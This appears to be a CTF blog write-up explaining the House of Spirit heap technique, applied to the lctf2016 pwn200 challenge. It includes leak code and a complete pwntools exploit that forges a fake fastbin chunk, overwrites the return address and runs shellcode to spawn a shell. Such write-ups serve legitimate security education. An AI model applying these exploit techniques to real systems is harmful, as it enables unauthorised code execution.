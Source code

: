 ```yaml
---
title: "PWN House_of_Spirit"
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


Take a look at `House_of_spirit`, which is a technique that relies on constructing `fake_chunk` on the stack to achieve `(almost) arbitrary write`. It depends on `fastbin`.

<!--truncate-->

# how2heap

Overall, it's relatively simple. The key points to note are the need for `16-byte alignment` and the requirement to construct `chunk_size` of `next_fake_chunk` to bypass checks.

![image-20220719220643524](https://oss.nova.gal/img/image-20220719220643524.png)

![image-20220719220923354](https://oss.nova.gal/img/image-20220719220923354.png)

# Practical Combat

## lctf2016_pwn200

![checksec](https://oss.nova.gal/img/image-20220719235857110.png)

No protections are enabled. Planning to go straight for `ret2shellcode`, but we don't have enough bytes for stack overflow.

![400A8E](https://oss.nova.gal/img/image-20220719235308594.png)

The first function `who are u?` has an `Off-by-One` vulnerability that leaks the contents pointed to by `400A8E` `rbp` (which is the `rbp` of the parent function).

```python
def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')

rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
```

![RBP](https://oss.nova.gal/img/image-20220719235609346.png)

The function `read_input()` returns an `int`, and even though `400A8E` is not used, it should be stored at some location on the stack. Based on the assembly, it is located at `[rbp-0x38]`.

![rbp-0x38](https://oss.nova.gal/img/image-20220720000140408.png)

In `400A29`, it can be observed that `dest` is a pointer, `buf` has an overflow of `8` bytes, which can directly overwrite `dest`. Since `dest` will be stored in `ptr` for later `free` and `malloc` operations in the `menu`.

![400A29](https://oss.nova.gal/img/image-20220720000329530.png)

From this point, we can speculate that we can construct a `fake_chunk` in `buf` and manipulate the heap pointer to point to `buf`, creating a `chunk` on the stack. The challenge lies in the `check_out` function where we need to forge `fake_next_chunk_size` as required by `House_of_spirit`.

Calculations reveal that the previous `id` is located at our current `buf+0x68`. Therefore, we could create a `0x50`-sized `chunk` at this location and set the `id` to a value that satisfies `house_of_spirit`.

![fake_next_chunk_size](https://oss.nova.gal/img/image-20220720001354338.png)

As a result, when we execute `free(ptr)`, the address on the stack will be stored in `fastbin`. Subsequently, by `malloc(0x60)` again and writing the corresponding payload to modify the return address, we can obtain a shell.

By observing, we find that the only controllable `ret_addr` is at `ptr+0x40`. With the return address controllable, where should we jump to? Do you remember the `0x30` data we input at the beginning of `who_r_u`? We can write the shellcode there. Just calculate the offset.

![image-20220720002739429](https://oss.nova.gal/img/image-20220720002739429.png)

Complete EXP:

```python
from pwn import *
context(os='linux', arch='amd64', log_level='DEBUG')

sh = process(['./pwn200'])


def who_are_you(content: bytes) -> bytes:
    sh.sendafter(b'who are u?\n', content)
    sh.recv(0x30)
    return sh.recv(6).ljust(8, b'\x00')


def give_id(content: bytes):
    sh.sendafter(b'give me your id ~~?', content)


def give_money(content: bytes):
    sh.sendafter(b'give me money~', content)


def menu(index: int):
    sh.recvuntil(b"your choice : ")
    if index == 1:
        sh.sendline(b"1")
    elif index == 2:
        sh.sendline(b"2")
        sh.recvuntil(b"out~")
    elif index == 3:
        sh.sendline(b"3")
        sh.recvuntil(b'good bye~')


def check_in(length_: bytes, content: bytes):
    sh.sendlineafter(b'how long?', length_)
    sh.sendlineafter(length_ + b'\n', content)
    sh.recvuntil(b"in~")


def gdb_(time_: int = None, arg: str = None):
    gdb.attach(sh, arg)
    pause(time_)


rbp = u64(who_are_you(asm(shellcraft.sh()).ljust(0x30, b'\x00')))
# rbp = u64(who_are_you(b'a'*0x30))
print("> rbp:", hex(rbp))
give_id(b'2333')  # next_fake_chunk_size
payload = p64(0) + p64(0x60) + b'\x00'*(0x40-0x10-0x08) + p64(rbp-0xb0)
give_money(payload)

menu(2)
ret_addr = rbp - 0x50
payload = b'\x00'*0x38 + p64(ret_addr) + b'\x00'*0x0F
menu(1)
check_in(b'80', payload)
menu(3)
sh.interactive()

```

# 2014_hack.lu_oreo

The bug that is quite puzzling (where `pwntools` cannot capture `Action`) was presented by LaughingMan. We'll discuss it later, have fun.

![image-20220720204517147](https://oss.nova.gal/img/image-20220720204517147.png)

<!-- AI -->
